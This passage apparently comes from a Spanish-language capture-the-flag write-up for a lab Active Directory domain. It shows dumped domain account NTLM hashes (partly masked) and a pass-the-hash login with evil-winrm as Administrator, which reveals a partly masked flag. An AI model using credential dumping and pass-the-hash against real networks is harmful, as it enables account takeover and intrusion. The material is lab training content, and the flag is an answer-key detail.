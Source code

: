 ```bash
SMB         dc2.megaairline.local 445    DC2              megaairline.local\elliot:1108:aad3b4**************ee:74fdf381a94e1e446aaedf1757419dcd:::
SMB         dc2.megaairline.local 445    DC2              megaairline.local\anna:2101:aad3b435**************c7b3c5fe865d954d5b47013e21f:::
SMB         dc2.megaairline.local 445    DC2              megaairline.local\thomas:2601:aad3b4**************cc1edee80e4469d0cb118be53:::
SMB         dc2.megaairline.local 445    DC2              megaairline.local\pippa:2602:aad3b43**************e:f5b43ca4ad68bce5349f7cb4b3168e4e:::
SMB         dc2.megaairline.local 445    DC2              megaairline.local\angela:2603:aad3**************04ee:df36ca14e6d8a3d06b2c895895dbf48a:::
SMB         dc2.megaairline.local 445    DC2              megaairline.local\nigel:2604:aad3b**************:923ef4c82666a2116ac5deda0a6b2e52:::
SMB         dc2.megaairline.local 445    DC2              megaairline.local\kate:2605:aad3b43**************a4486fa23aeb1752503add2:::
SMB         dc2.megaairline.local 445    DC2              megaairline.local\emily:2606:aad3**************1404ee:24bfa93d0525c9f374467224de523a6f:::
SMB         dc2.megaairline.local 445    DC2              DC2$:1000:aad3b435b51404ee**************d67901176f6168d325d9ee3919e82:::
SMB         dc2.megaairline.local 445    DC2              MS01$:1106:aad3b435b51404e**************af44780749249ed6248f:::
SMB         dc2.megaairline.local 445    DC2              attackersystem$:9104:aad3b435**************ee:32ed87bdb5fdc5e9cba88547376818d4:::
SMB         dc2.megaairline.local 445    DC2              DAEDALUS$:1107:aad3b435b51404**************680a37bc4b11bc76657bc23341beffd6:::
```

Con el hash NT de Administrator en nuestro poder, podríamos conectarnos al DC2 utilizando "evil-winrm" y obtener una shell interactiva donde podríamos leer la flag.

```powershell
❯ evil-winrm -i dc2.megaairline.local -u Administrator -H 674f1a5**************f86db60  
PS C:\Users\Administrator\Documents> whoami
megaairline\administrator
PS C:\Users\Administrator\Documents> type ..\Desktop\flag.txt
ASCENSION{g0**************}
PS C:\Users\Administrator\Documents>
```
